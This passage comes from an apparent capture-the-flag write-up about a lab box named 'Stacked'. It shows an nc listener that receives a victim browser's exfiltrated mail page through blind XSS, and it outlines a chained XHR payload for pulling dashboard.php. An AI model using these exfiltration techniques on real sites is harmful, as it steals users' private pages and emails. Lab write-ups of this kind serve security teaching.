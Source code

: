 

I'll need a different port for the exfil as the Python HTTP server
doesn't handle POST requests. I'll start `nc` listening on 9001. On
sending the request again, after a minute, there's a request for the JS:



    10.10.11.112 - - [24/Aug/2021 11:51:03] "GET /xss-2.js HTTP/1.1" 200 -



Then a POST to `nc`:



    oxdf@hacky$ nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 45486 
    POST / HTTP/1.1                                            
    Host: 10.10.14.6:9001
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://mail.stacked.htb/read-mail.php?id=2        
    Content-Length: 7954                                       
    Content-Type: text/plain;charset=UTF-8
    Origin: http://mail.stacked.htb                            
    Connection: keep-alive

    .md><head>
      <meta charset="utf-8">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>AdminLTE 3 | Read Mail</title>
    ...[snip]...



I can save that to a file and open it in Firefox. The CSS / images don't
show (because they will be failed requests to mail.stacked.htb), but I
can still see the general page and links:

![](/img/image-20210824115718119.png)

The "Inbox" link points to `/dashboard.php`. I'll actually make this
page available from my VM and play with it in [Beyond
Root](#message-app).

### View Mailbox

To get another page as this user and then return it, I'll need to make
two HTTP requests with JavaScript. The first will get the page I want,
and the second will return the source just like above. The first request
will get `/dashboard.php`. It will also have a `onreadystatechange`
function that waits for the request to finish (`readyState == 4`), and
then starts a new request to send the results back to me:

